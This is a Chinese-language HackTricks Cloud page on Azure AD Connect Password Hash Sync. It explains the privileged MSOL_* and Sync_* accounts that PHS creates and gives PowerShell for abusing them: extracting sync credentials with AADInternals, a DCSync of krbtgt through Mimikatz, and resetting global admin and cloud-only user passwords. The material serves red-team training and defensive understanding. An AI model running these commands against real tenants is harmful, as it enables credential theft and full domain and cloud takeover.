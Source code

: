 # Az - PHS - 密码哈希同步

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家[NFTs](https://opensea.io/collection/the-peass-family)收藏
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **密码哈希同步** 是用于实现混合身份的一种登录方法之一。 **Azure AD Connect** 将来自本地活动目录实例的用户密码的哈希同步到基于云的Azure AD实例中。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这是公司用来将本地AD与Azure AD同步的**最常用方法**。

所有**用户**和**密码哈希的哈希**都从本地同步到Azure AD。但是，**明文密码**或**原始哈希**不会发送到Azure AD。\
此外，**内置**安全组（如域管理员...）不会被同步到Azure AD。

哈希同步每**2分钟**发生一次。但是，默认情况下，Azure AD中**不会同步**密码过期和帐户过期。因此，一个**本地密码已过期**（未更改）的用户可以继续使用旧密码访问Azure资源。

当本地用户想要访问Azure资源时，**身份验证在Azure AD上进行**。

**PHS** 对于诸如**身份保护**和AAD域服务等功能是必需的。

## 枢纽

当配置PHS时，一些**特权帐户**会自动**创建**：

- 在本地AD中自动创建帐户**`MSOL_<installationID>`**。此帐户被赋予**目录同步帐户**角色（请参阅[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地AD中具有**复制（DCSync）权限**。
- 在Azure AD中创建一个帐户**`Sync_<name of on-prem ADConnect Server>_installationID`**。此帐户可以在Azure AD中**重置任何用户**（同步或仅云）的密码。

前两个特权帐户的密码**存储在安装Azure AD Connect的服务器上的SQL服务器**中。管理员可以以明文形式提取这些特权用户的密码。\
数据库位于`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`中。

可以从其中一个表中提取配置，其中一个被加密：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**加密配置**使用**DPAPI**加密，其中包含本地AD中`MSOL_*`用户和AzureAD中**Sync\_\***的密码。因此，通过妥协这些内容，可以提升权限到AD和AzureAD。

您可以在[此演讲中找到这些凭据是如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找**Azure AD连接服务器**

如果**安装了Azure AD连接的服务器**加入了域（文档中推荐），可以使用以下方法找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### 滥用 MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您也可以使用[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

通过入侵 **`Sync_*`** 账户，可以重置任何用户的密码（包括全局管理员）。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
也有可能仅修改云用户的密码（即使这是意外的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以转储该用户的密码。

{% hint style="danger" %}
另一个选项是为服务主体分配特权权限，**Sync**用户有权限执行此操作，然后以此服务主体的身份访问，作为权限提升的一种方式。
{% endhint %}

### 无缝SSO

可以使用PHS进行无缝SSO，这对其他滥用是有漏洞的。在以下位置检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
